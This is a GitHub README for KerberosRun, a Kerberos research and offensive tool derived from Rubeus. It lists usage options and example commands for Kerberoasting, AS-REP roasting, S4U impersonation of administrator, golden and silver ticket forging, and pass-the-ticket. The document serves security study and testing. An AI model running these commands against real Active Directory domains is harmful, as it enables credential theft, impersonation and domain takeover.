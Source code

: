 
# KerberosRun

KerberosRun is a little tool I use to study Kerberos internals together with my [ADCollector](https://github.com/dev-2null/ADCollector). I'll try to learn and implement stuff from [Rubeus](https://github.com/GhostPack/Rubeus), also something not in Rubeus.  

KerberosRun uses the [Kerberos.NET](https://github.com/dotnet/Kerberos.NET) library built by [Steve Syfuhs](https://twitter.com/stevesyfuhs). It is heavily adapated from [Harmj0y](https://twitter.com/harmj0y)'s Rubeus project (some code were taken directly from this project). 

[dev2null](https://twitter.com/dev2nulI) is the primary author of this project. My colleague [Constantin](https://twitter.com/_Herberos) is the collaborator who helped me build up the tool, had a lot of discussions with me and gave me ideas. 

Thanks Steve for builting up this great library and having discussions with me to solve code problems. Thanks Harmj0y (and other authors) for the concepts and weaponization in Rubeus. Special thanks to [@_dirkjan](https://twitter.com/_dirkjan) for helping me out regarding the KRBCRED structure and other questions.


## Authentication Flows

[AS Exchange](Authentication/AS_Exchange_DecryptedTGT.md)

[TGS Exchange: Unconstrained Delegation](Authentication/TGS_Exchange_UnconstrainedDelegation.md)

[TGS Exchange: S4U](Authentication/TGS_Exchange_S4U.md)

[TGS Exchange: Decrypted PAC](Authentication/TGS_Exchange_DecryptedWithPAC.md)

[All In One](Authentication/AllInOne.md)


## Usage
```powershell
PS C:\Users\dev2null\Desktop> .\KerberosRun.exe    

   __           __
  / /_____ ____/ /  ___ _______  ___ ______ _____
 /  '_/ -_) __/ _ \/ -_) __/ _ \(_-</ __/ // / _ \
/_/\_\\__/_/ /_.__/\__/_/  \___/___/_/  \_,_/_//_/

  v1.0.0

Usage: KerberosRun.exe -h

    [--AskTGT]              Ask for a TGT
        --User*             A valid username
        --Pass              A valid password

    [--AskTGS]              Ask for a TGS
        --User*             A valid username
        --Pass              A valid password
        --SPN*              Target SPN for the service request

    [--Kerberoast]          Kerberoasting
        --User*             A valid username
        --Pass              A valid password
        --SPN*              Target SPN for Kerberoasting

    [--Asreproast]          ASREPRoasting
        --User*             A valid username that does not require PreAuth
        --Format            Output Hash format (John/Hashcat, Default: Hashcat)

    [--S4U2Self]            Service for User to Self
        --User*             A valid username that has SPN set
        --Pass              A valid password
        --ImperonsateUser*  A user to impersonate

    [--S4U]                 S4U2Self and S4U2Proxy
        --User*             A valid username that has SPN set
        --Pass              A valid password
        --Imperonsate*      A user to impersonate
        --SPN*              Target SPN for impersonate user

    [--Golden]              Build a Golden Ticket
        --RC4/AES128/AES256 krbtgt account hash
        --DomainSid*        Domain SIDs
        --UserID            User ID (default: 500)
        --User*             User name for the golden ticket

    [--Sliver]              Make a Sliver Ticket
        --RC4/AES128/AES256 Service account hash
        --DomainSid*        Domain SID
        --Service*          Service name (HTTP/CIFS/HOST...)
        --Host*             Target Servers
        --User*             User name for the sliver ticket

    [--Ticket]              Pass base64 encoded kirbi ticket into current session

     --Domain            A valid domain name (default: current domain)
     --RC4/AES128/AES256 A valid hash (alternative way for authentication)
     --Verbose           Verbose mode
     --Outfile           Write the ticket to a kirbi file under the current directory
     --PTT               Pass the ticket into current session
     --DecryptTGT        Supply the krbtgt hash and decrypt the TGT ticket
     --DecryptTGS        Supply the service account hash and decrypt the TGS ticket
     --DecryptEtype   The encryption type of the hash for decrypting tickets (rc4/aes128/aes256)
     --SrvName           The service account name for decrypting TGS


Example:
        .\KerberosRun.exe --Asktgt --user username --pass password --verbose --outfile --decrypttgt [krbtgtHash] --decryptetype aes256
        .\KerberosRun.exe --Asktgs --user username --pass password --spn service/srv.domain.com --verbose --outfile
        .\KerberosRun.exe --Asreproast --user username --verbose
        .\KerberosRun.exe --Kerberoast --user username --rc4 [RC4Hash] --spn service/srv.domain.com
        .\KerberosRun.exe --S4U2Self --user username --aes128 [AES128Hash] --impersonateuser administrator --verbose
        .\KerberosRun.exe --S4U --user username --aes256 [AES256Hash] --impersonateuser administrator --spn ldap/dc1.domain.com --ptt
        .\KerberosRun.exe --Golden --user administrator --domain domain.com --userid 500 --domainsid  [DomainSID] --RC4 [krbtgtHash] --ptt
        .\KerberosRun.exe --Sliver --user administrator --domain domain.com --domainsid  [DomainSID] --RC4 [srvHash] --Service HTTP --HOST DC01$ -ptt
        .\KerberosRun.exe --Ticket Base64EncodedKirbiString/KirbiTicketFiles
```

## Sample Commands & Results

| [AskTGT](Authentication/Samples/AskTGT.md) | [AskTGS](Authentication/Samples/AskTGS.md) | [Asreproast](Authentication/Samples/Asreproast.md) | [Kerberoast](Authentication/Samples/Kerberoast.md) | [S4U2Self](Authentication/Samples/S4U2Self.md) | [S4U](Authentication/Samples/S4U.md) | [Golden](Authentication/Samples/Golden.md) | [Sliver](Authentication/Samples/Sliver.md) |



## License
KerberosRun has an MIT License. See the [License File](/LICENSE) for more details. Also see the [Notices file](/NOTICES) for more information on the licenses of projects this depends on.
